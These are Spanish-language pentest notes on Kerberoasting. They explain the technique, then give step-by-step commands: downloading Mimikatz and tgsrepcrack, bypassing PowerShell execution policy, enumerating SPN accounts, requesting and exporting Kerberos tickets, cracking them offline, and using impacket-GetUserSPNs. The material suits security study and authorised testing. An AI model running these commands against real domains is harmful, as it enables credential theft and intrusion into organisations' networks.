 # Kerberoasting 

Tags: #AD #Windows #Powershell #Kerberos 

Kerberoasting es una tecnica de post explotación que permite obtener un hash de una password de una cuenta de AD que tiene un 'Service Principal Name' (SPN). Un usuario autenticado del dominio solicita a Kerberos un ticket para un SPN. El ticket es encriptado con un hash de servicio afiliado a la password del usuario con el SPN. El atacante después offline craquea la password del hash con técnicas de fuerza bruta. Una vez obtenida la credencial en texto plano, el atacante puede ingresar al sistema, dispositivos o redes de la cuenta comprometida. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
❯ wget https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-NetUser | Where-Object {$_.servicePrincipalName} | fl 
❯ setspn -T research -Q */*                  # Identificar las cuentas de usuario con SPN activado
	# fl = Format List

❯ klist # Lista los tickets de Kerberos de la sesion del usuario actual 
❯ Add-Type -AssemblyName System.IdentityModel 
# Solicitar a TGS ticket para el SPN usando Kerberos
❯ New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/domain.local:1434"

❯ . .\Invoke-Mimikatz.ps1         # importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::list /export"'     # Listara todos los tickets de Kerberos y los exportara 
```

```bash 
# Craquear la password del TGS usando Tgrepcrack en Kali
❯ python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt 1-40a1-student@ops~local.kirbi 
	# TGS ticket File = 1-40a1-student@ops~local.kirbi
```

## Impacket-GetUserSPNs

```bash 
❯ impacket-GetUserSPNs domain.corp/user:Password     # Ver si el usuario es Kerberosteable y lista los usuarios a los que puedes solicitar un TGS

❯ impacket-GetUserSPNs domain1.corp/clearpass.user:Password@1 -dc-ip IP -request

	# dc-ip = Dirección IP del DC
	# domain1 = Dominio 
	# clearpass.user = Usuario valido del dominio 
	# Password@1 = Contraseña del usuario valido 

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```